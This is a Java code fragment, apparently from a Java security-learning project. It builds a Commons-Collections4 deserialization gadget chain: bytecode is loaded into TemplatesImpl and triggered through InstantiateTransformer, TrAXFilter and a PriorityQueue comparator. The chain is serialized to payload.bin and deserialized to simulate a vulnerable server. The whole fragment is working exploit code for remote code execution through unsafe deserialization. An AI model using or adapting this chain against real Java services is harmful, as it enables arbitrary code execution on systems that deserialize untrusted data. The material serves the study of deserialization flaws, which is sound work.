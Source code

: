```java
        nameField.setAccessible(true);
        nameField.set(templates, "aaa");
        Field bytecodeField = tc.getDeclaredField("_bytecodes");
        bytecodeField.setAccessible(true);

        byte[] code = Files.readAllBytes(Paths.get("D:\\JavaSec\\CCdebug\\target\\classes\\org\\cc\\cc1\\test.class"));
        byte[][] codes = {code};
        bytecodeField.set(templates, codes);

//        Field tfactoryField = tc.getDeclaredField("_tfactory");
//        tfactoryField.setAccessible(true);
//        tfactoryField.set(templates, new TransformerFactoryImpl());
//        //templates.newTransformer();

        org.apache.commons.collections4.functors.InstantiateTransformer instantiateTransformer = new InstantiateTransformer(new Class[]{Templates.class}, new Object[]{templates});
        org.apache.commons.collections4.Transformer[] transformers = new Transformer[]{
                new ConstantTransformer(TrAXFilter.class),
                instantiateTransformer
        };

        ChainedTransformer chainedTransformer = new ChainedTransformer<>(transformers);
        TransformingComparator transformingComparator = new TransformingComparator(new ConstantTransformer<>(1));
        PriorityQueue priorityQueue = new PriorityQueue<>(transformingComparator);

        priorityQueue.add(1);
        priorityQueue.add(2);

        Class c = transformingComparator.getClass();
        Field transformerField = c.getDeclaredField("transformer");
        transformerField.setAccessible(true);
        transformerField.set(transformingComparator, chainedTransformer);

        //payload序列化写入文件，模拟网络传输
        FileOutputStream f = new FileOutputStream("payload.bin");
        ObjectOutputStream fout = new ObjectOutputStream(f);
        fout.writeObject(priorityQueue);

        //2.服务端读取文件，反序列化，模拟网络传输
        FileInputStream fi = new FileInputStream("payload.bin");
        ObjectInputStream fin = new ObjectInputStream(fi);
        //服务端反序列化
        fin.readObject();
    }

}

```
